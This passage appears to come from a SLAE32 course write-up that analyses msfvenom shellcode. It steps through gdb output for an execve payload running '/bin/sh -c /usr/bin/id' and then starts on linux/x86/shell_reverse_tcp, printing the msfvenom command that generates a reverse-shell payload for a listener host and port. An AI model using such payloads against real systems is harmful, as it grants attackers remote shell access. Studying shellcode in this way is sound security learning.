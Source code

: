 After the call instruction, gdb shows that the next instructions push the argv[] in the reverse order:
```
$eax   : 0xb       
$ebx   : 0xbffff59e  →  "/bin/sh"
$ecx   : 0x7ffffff7
$edx   : 0x0       
$esp   : 0xbffff596  →  0x0804a05d  →  "/usr/bin/id"
$ebp   : 0xbffff5c8  →  0x00000000
$esi   : 0xb7fcc000  →  0x001b1db0
$edi   : 0xbffff5a6  →  0x0000632d ("-c"?)
[...]
0xbffff596│+0x0000: 0x0804a05d  →  "/usr/bin/id"         ← $esp
0xbffff59a│+0x0004: 0x00000000
0xbffff59e│+0x0008: "/bin/sh"
0xbffff5a2│+0x000c: 0x0068732f ("/sh"?)
0xbffff5a6│+0x0010: 0x0000632d ("-c"?)
0xbffff5aa│+0x0014: 0x843a0000
0xbffff5ae│+0x0018: 0x00010804
0xbffff5b2│+0x001c: 0xf6740000
───────────────────────────────────────────────────────── code:x86:32 ────
 →  0x804a069 <shellcode+41>   push   edi
    0x804a06a <shellcode+42>   push   ebx
    0x804a06b <shellcode+43>   mov    ecx, esp
    0x804a06d <shellcode+45>   int    0x80
```    

After the `push`, the stack looks like this:
```
0xbffff58e│+0x0000: 0xbffff59e  →  "/bin/sh"     ← $esp
0xbffff592│+0x0004: 0xbffff5a6  →  0x0000632d ("-c"?)
0xbffff596│+0x0008: 0x0804a05d  →  "/usr/bin/id"
```

The `argv[]` now contains : `["/bin/sh", "-c", "/usr/bin/id"]` and the `$ecx` register contains the memory adress of this array.

Finally, `execve` is called using the `int 0x80` instruction.

# Shellcode analysis #2: linux/x86/shell_reverse_tcp
---------------------------------------

The `linux/x86/shell_reverse_tcp` msfvenom payload connects back to a remote machine, executes a shell and redirects output to the socket. This type of payload is commonly used when a firewall restrict incoming connections but allow outbound connections.

The payload for this analysis was generated as follows:

```
slemire@slae:~/slae32/assignment5/2_shell_reverse_tcp$ msfvenom -p linux/x86/shell_reverse_tcp -f c -o shell_reverse_tcp_shellcode LHOST=172.23.10.37 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
Saved as: shell_reverse_tcp_shellcode
```
